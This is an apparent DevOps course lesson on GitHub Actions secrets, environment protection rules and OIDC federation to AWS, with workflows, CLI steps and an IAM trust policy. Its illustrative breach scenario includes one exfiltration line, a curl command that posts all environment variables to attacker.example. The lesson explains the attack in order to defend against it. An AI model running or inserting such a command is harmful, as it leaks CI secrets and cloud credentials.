


# L3.12 — GitHub Environments and Secrets

> **Level 3: Git & GitHub** · Topic 12 of 13 · ⏱ ~4 hours · Difficulty: Intermediate

## 1. What it is

A pipeline needs two things the code itself must not contain: **secrets** (credentials such as API tokens and passwords) and **permission to touch real infrastructure** (staging, production). GitHub gives you three building blocks:

- **Secrets and variables:** named values stored encrypted by GitHub, injected into workflow runs as `${{ secrets.NAME }}` (secret, masked in logs) or `${{ vars.NAME }}` (plain configuration). They can be defined at the **repository**, **organization** or **environment** level.
- **Environments:** named deployment targets such as `staging` and `production`. An environment can have its own secrets and variables plus **protection rules**: required reviewers who must approve, a wait timer, and limits on which branches or tags may deploy to it.
  A job that says `environment: production` pauses until those rules pass, and only then can it read the environment's secrets.
- **OIDC (OpenID Connect) federation:** instead of storing a long-lived cloud key as a secret, the workflow asks GitHub for a **short-lived signed identity token** (a JWT, JSON Web Token). The cloud provider (AWS, Azure, Google Cloud) is configured to trust GitHub as an identity provider and exchanges that token
  for **temporary credentials**, but only if the token's claims (repository, branch, environment) match a rule you wrote. No stored cloud secret exists to leak.

## 2. Why it matters in DevOps

- **CI is a high-value target.** It holds the keys to production. Leaked CI secrets have been the root cause of well-known supply-chain breaches.
- **Separation of duties:** "anyone can merge to main, but only the release managers can deploy to production" is implemented with environment reviewers.
- **Blast radius:** a staging secret should not work in production, and a feature-branch workflow should not be able to reach production at all.
- **Rotation pain:** static cloud keys must be rotated, tracked and never leaked. OIDC removes the whole category. This is the modern default for deploying to AWS (see [IAM](../level-06-cloud-aws/07-iam.md) and [least-privilege IAM](../level-11-security-devsecops/02-least-privilege-iam.md)).
- **Pitfall:** secrets masked in logs are still readable by anyone who can edit the workflow. Protection comes from controlling who can run what, not from masking.

## 3. Real-world system example

**GitHub's OIDC documentation** describes the pattern for AWS, Azure, Google Cloud and HashiCorp Vault: the `aws-actions/configure-aws-credentials` action (maintained by AWS) calls AWS STS `AssumeRoleWithWebIdentity` using the GitHub-issued token and returns temporary credentials that expire (by default after an hour).
The IAM role's **trust policy** names GitHub's issuer, `token.actions.githubusercontent.com`, and conditions on the token's `sub` claim such as `repo:example-org/shop-api:environment:production`.

**Real incidents that explain the design.** In 2021 Codecov disclosed that its Bash Uploader script had been tampered with, which allowed environment variables, including CI secrets, to be sent to an attacker. In January 2023 CircleCI disclosed a security incident and told customers to rotate all secrets stored in the platform.
Both are the textbook reasons for short-lived credentials, per-environment secrets, pinned third-party actions and least-privilege tokens.

**Typical company setup:** `staging` deploys automatically on merge to `main`; `production` requires approval by a small reviewers team and is restricted to `main` and release tags; the cloud role for production can only be assumed by workflows running in the `production` environment.

## 4. Diagram

Environment gate:



OIDC token exchange (no stored cloud key):



## 5. How it works

**Where values can live**

| Scope | Visible to | Use for |
|-------|-----------|---------|
| Organization secret | selected repos in the org | shared tokens (for example a registry service account) |
| Repository secret / variable | all workflows in the repo | CI-only credentials, non-sensitive config |
| **Environment** secret / variable | only jobs that declare `environment: <name>` and pass its rules | deploy credentials, per-environment URLs and settings |

If the same name exists at several levels, the most specific wins (environment over repository over organization).
Secrets are not passed to workflows triggered by pull requests **from forks** (except via risky triggers such as `pull_request_target`), and `GITHUB_TOKEN` is read-only there.

**Environment protection rules**

| Rule | Effect |
|------|--------|
| Required reviewers (up to 6 users or teams) | one of them must approve before the job starts; optionally "prevent self-review" |
| Wait timer | delay (minutes) before the job can proceed, useful for a "bake time" |
| Deployment branches and tags | restrict to protected branches, or to patterns like `main` and `v*` |
| Custom deployment protection rules | third-party apps (for example, a monitoring check) can approve or reject |
| Environment secrets and variables | scoped to this environment only |

Availability: environments are free for public repositories; for private repositories some features need a paid plan (GitHub Pro, Team or Enterprise). Check the current docs for your plan.

**Using them in YAML**

```yaml
jobs:
  deploy-production:
    runs-on: ubuntu-latest
    environment:
      name: production
      url: https://example.com
    steps:
      - run: ./deploy.sh
        env:
          API_TOKEN: ${{ secrets.API_TOKEN }}     # environment secret
          REGION: ${{ vars.AWS_REGION }}          # environment variable
```

**Secret hygiene rules**

- Masking only catches the exact value; transformed values (base64, split strings) can leak. Do not print secrets, ever.
- Never pass a secret on a command line where it appears in process listings; use environment variables or stdin.
- Use `GITHUB_TOKEN` with an explicit `permissions:` block rather than a personal access token (PAT) where possible. If you need a PAT, use a fine-grained one with a short expiry.
- Multi-line secrets (PEM keys) are supported; secrets are limited to 48 KB each.
- Review who can edit `.github/workflows/` ([CODEOWNERS](08-protected-branches-and-pull-requests.md)): editing a workflow can exfiltrate any secret the workflow can read.

**OIDC claims you can match in a trust policy**

| Claim | Example | Meaning |
|-------|---------|---------|
| `iss` | `https://token.actions.githubusercontent.com` | GitHub's issuer (the trusted identity provider) |
| `aud` | `sts.amazonaws.com` | intended audience (the AWS action sets this) |
| `sub` | `repo:example-org/shop-api:environment:production` | who is asking; other forms: `repo:ORG/REPO:ref:refs/heads/main`, `repo:ORG/REPO:ref:refs/tags/v1.2.0`, `repo:ORG/REPO:pull_request` |
| `repository`, `ref`, `workflow`, `actor`, `environment` | various | extra claims for fine-grained rules |

Workflows must grant the job `permissions: id-token: write` to request the token (and `contents: read` if they also check out code).

## 6. Step-by-step guide

**Prerequisites:** a GitHub repository (public is free), `gh` CLI. For the AWS part: an AWS account you can experiment in. IAM resources used here are free, but follow the billing guidance: set a billing alarm or budget in the account before any experiments, never use the root user for day-to-day work (see [IAM](../level-06-cloud-aws/07-iam.md)), and do the teardown at the end.

1. **Add a repository secret and a variable with the CLI.**
   ```bash
   gh secret set REGISTRY_TOKEN --body '<YOUR_TOKEN>'
   gh variable set APP_NAME --body 'shop-api'
   gh secret list
   gh variable list
   ```
   `gh secret list` shows names and update times, never values: secrets are write-only.

2. **Create two environments.**
   ```bash
   gh api --method PUT repos/:owner/:repo/environments/staging
   gh api --method PUT repos/:owner/:repo/environments/production
   gh secret set DEPLOY_TOKEN --env staging    --body 'staging-<YOUR_TOKEN>'
   gh secret set DEPLOY_TOKEN --env production --body 'production-<YOUR_TOKEN>'
   ```
   Now configure production in the UI: *Settings, Environments, production*: tick **Required reviewers** (add yourself or a teammate; for a solo repo, add a second account or leave "prevent self-review" off),
   set **Deployment branches and tags** to *Selected branches and tags* and add `main` and the tag pattern `v*`.

3. **A workflow that deploys through the gates.** `.github/workflows/deploy.yml`:
   ```yaml
   name: Deploy

   on:
     push:
       branches: [main]
     workflow_dispatch:

   permissions:
     contents: read

   jobs:
     staging:
       runs-on: ubuntu-latest
       environment: staging
       steps:
         - name: Show which token this environment sees (length only, never the value)
           env:
             DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
           run: |
             echo "environment secret length: ${#DEPLOY_TOKEN}"
             echo "app: ${{ vars.APP_NAME }}"

     production:
       needs: staging
       runs-on: ubuntu-latest
       environment:
         name: production
         url: https://example.com
       steps:
         - env:
             DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
           run: echo "deploying with a token of length ${#DEPLOY_TOKEN}"
   ```
   Push to `main`. The run shows `staging` finishing, then `production` as **Waiting** with a *Review deployments* button. Approve it (comment optional) and the job runs; the Deployments page of the repository records who approved and when.

4. **See masking in action.** Add `run: echo "token is $DEPLOY_TOKEN"` to the staging job. The log prints `token is ***`. Remove the step again; masking is a safety net, not a design.

5. **Create the AWS OIDC identity provider** (once per account). Console: *IAM, Identity providers, Add provider, OpenID Connect*; provider URL `https://token.actions.githubusercontent.com`, audience `sts.amazonaws.com`. Or CLI:
   ```bash
   aws iam create-open-id-connect-provider \
     --url https://token.actions.githubusercontent.com \
     --client-id-list sts.amazonaws.com
   ```
   (Older guides pass a thumbprint list; AWS now validates GitHub's certificate chain itself and the thumbprint is no longer required for this provider. If your CLI version insists on one, the console route avoids it.)

6. **Create an IAM role GitHub can assume.** Save as `trust-policy.json`, replacing `123456789012` and `example-org/shop-api` with your account id and repository:
   ```json
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Allow",
         "Principal": {
           "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
         },
         "Action": "sts:AssumeRoleWithWebIdentity",
         "Condition": {
           "StringEquals": {
             "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
             "token.actions.githubusercontent.com:sub": "repo:example-org/shop-api:environment:production"
           }
         }
       }
     ]
   }
   ```
   ```bash
   aws iam create-role --role-name gha-shop-api-production \
     --assume-role-policy-document file://trust-policy.json
   aws iam attach-role-policy --role-name gha-shop-api-production \
     --policy-arn arn:aws:iam::aws:policy/ReadOnlyAccess      # sandbox only; use a least-privilege policy in real life
   ```
   The `sub` condition is the security boundary: only jobs running in the `production` environment of that exact repository can assume the role. A wildcard like `repo:example-org/*` would let any repo in the org use it.

7. **Use the role from a workflow, with no stored AWS key.**
   ```yaml
   jobs:
     aws-identity:
       runs-on: ubuntu-latest
       environment: production
       permissions:
         id-token: write      # allow requesting the OIDC token
         contents: read
       steps:
         - uses: aws-actions/configure-aws-credentials@v4
           with:
             role-to-assume: arn:aws:iam::123456789012:role/gha-shop-api-production
             aws-region: us-east-1
         - run: aws sts get-caller-identity
   ```
   Expected output (similar to): an `Arn` of the form `arn:aws:sts::123456789012:assumed-role/gha-shop-api-production/GitHubActions`. Run the same job from a branch workflow without `environment: production` and the assume-role call fails with
   `Not authorized to perform sts:AssumeRoleWithWebIdentity`: the trust policy did its job.

8. **Teardown (do this).**
   ```bash
   aws iam detach-role-policy --role-name gha-shop-api-production --policy-arn arn:aws:iam::aws:policy/ReadOnlyAccess
   aws iam delete-role --role-name gha-shop-api-production
   aws iam delete-open-id-connect-provider \
     --open-id-connect-provider-arn arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com
   gh secret delete REGISTRY_TOKEN
   ```

## 7. Real-world scenario

*(Illustrative.)* The `shop-api` repo stores `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` as repository secrets for an IAM user with admin rights, because "it was quick". A contributor's PR adds a step to a test workflow,
`curl -d "$(env)" https://attacker.example`, in a repository where `pull_request_target` was enabled by an old template. The keys leak; the cloud audit log shows crypto-mining instances in an unused region within hours.
Cleanup takes days: rotate the keys, tear down the instances, review everything the key could touch. The rebuild uses OIDC with a role per environment, `permissions: {}` by default, production gated by reviewers and restricted to `main`, and CODEOWNERS on `.github/workflows/`.
**Lesson:** the safest secret is the one that never exists; the second safest is short-lived, narrowly scoped and only available to a gated job.

## 8. Common mistakes and best practices

**Don't**

- Store long-lived cloud keys as repository secrets when OIDC is available.
- Use one broad `repo:ORG/*` or `*` in the trust policy `sub` condition.
- Give a job `id-token: write` when it does not need it, or run untrusted code in a job that has it.
- Echo or `set -x` secrets, or write them to artifacts and caches.
- Let any branch deploy to production; restrict deployment branches/tags.
- Put secrets in `workflow_dispatch` inputs or in image build args that end up in layers.

**Do**

- Use environment-scoped secrets and one cloud role per environment.
- Require reviewers and (where it makes sense) a wait timer on `production`.
- Keep `permissions: contents: read` as the default and grant more per job.
- Rotate remaining static secrets on a schedule and after any suspicion; know where each one is used.
- Prefer a secrets manager for runtime application secrets ([Secrets Manager](../level-06-cloud-aws/16-secrets-manager.md)); CI secrets are for the pipeline, not the running app.
- Turn on secret scanning and push protection for the repository ([secrets scanning](../level-11-security-devsecops/11-secrets-scanning.md)).

## 9. Tasks

- [ ] **T1 — Secrets and variables** *(≈20 min, beginner)*
  - **Goal:** use a secret and a variable in a workflow.
  - **Steps:**
    1. Add a repository secret and variable with `gh`.
    2. Write a workflow step that prints the variable and the length of the secret.
  - **Done when:** the log shows the variable value, the secret length, and `***` if you try to print the secret itself.

- [ ] **T2 — Two environments with different secrets** *(≈30 min, beginner)*
  - **Goal:** show environment scoping.
  - **Steps:**
    1. Create `staging` and `production` with different `DEPLOY_TOKEN` values.
    2. Run a workflow whose two jobs print the secret's length (use values of different lengths).
  - **Done when:** each job reports a different length, proving each saw its own environment's value.

- [ ] **T3 — Approval gate** *(≈30 min, intermediate)*
  - **Goal:** require a human before production.
  - **Steps:**
    1. Add required reviewers to `production` and restrict deployment to `main`.
    2. Push to `main` and approve the waiting job.
    3. Trigger the workflow from a feature branch with `workflow_dispatch` using the branch selector.
  - **Done when:** the `main` run waits for and receives your approval, and the feature-branch run to `production` is rejected because the branch is not allowed.

- [ ] **T4 — OIDC to AWS** *(≈60 min, advanced, uses a free-tier-safe AWS account)*
  - **Goal:** deploy with zero stored cloud keys.
  - **Steps:**
    1. Do guide steps 5-7.
    2. Confirm `aws sts get-caller-identity` prints the assumed role.
    3. Run the teardown in step 8.
  - **Done when:** the workflow prints the assumed-role ARN with no AWS secrets configured in the repository, and teardown leaves no role or provider (`aws iam list-roles` no longer shows it).

- [ ] **T5 — Break it: tighten and attack the trust policy** *(≈40 min, advanced)*
  - **Goal:** prove the `sub` condition is the boundary.
  - **Steps:**
    1. With the role from T4, run a job on a feature branch **without** `environment: production`; capture the error.
    2. Change the `sub` to `repo:example-org/shop-api:ref:refs/heads/main` and run from `main` without an environment.
    3. Temporarily widen it to `repo:example-org/*` (StringLike) and explain which attack that enables. Then restore the strict value.
  - **Done when:** you have the error text for the denied run, a success on the `main` ref, and a written one-paragraph risk statement for the wildcard.

- [ ] **T6 — Prove it: secret-handling review** *(≈40 min, advanced)*
  - **Goal:** audit a pipeline like a reviewer.
  - **Steps:**
    1. Without the guide, review a workflow (use this level's examples) and list every secret, its scope, and who can trigger the job that uses it.
    2. Propose changes: environments, OIDC, `permissions`, pinned actions.
    3. Present it as a 5-item checklist for your team.
  - **Done when:** each checklist item names the specific YAML key or GitHub setting that implements it.

## 10. Self-check questions

1. Why is OIDC better than storing an AWS access key as a secret?
2. What does the `sub` claim in the token represent, and why must the trust policy check it?
3. What happens when a job references an environment with required reviewers?
4. Why is log masking not a security control?
5. Which permission must a job have to request an OIDC token?

<details>
<summary>Answers</summary>

1. The credentials are short-lived, issued per run, scoped by claims such as repo and environment, and there is no static secret to leak or rotate.
2. It identifies the workflow context (repo, branch, tag, environment). Without a restrictive `sub` check, any repo or branch authorised by the provider could assume the role.
3. The job pauses in a waiting state; secrets are not exposed until a reviewer approves and the branch/tag rules pass.
4. It only hides the exact string in logs. Anyone who can edit the workflow can print a transformed copy or send it elsewhere.
5. `permissions: id-token: write`.
</details>

## 11. Further reading

- GitHub Docs: "Using secrets in GitHub Actions", "Managing environments for deployment" and "About security hardening with OpenID Connect" (docs.github.com/actions), plus the AWS-specific OIDC page.
- AWS Docs: "Creating OpenID Connect (OIDC) identity providers" and the `aws-actions/configure-aws-credentials` README.
- OpenID Connect Core 1.0 specification (openid.net) for the token format.
- Next step: [Level 5: Secrets and Environment Variables](../level-05-cicd/05-secrets-and-environment-variables.md).

<!-- nav -->
---
← Previous: [GitHub Actions: Workflows, Jobs and Triggers](11-github-actions-workflows.md) · [Level 3 index](README.md) · Next: [Artifacts and Runners](13-artifacts-and-runners.md) →
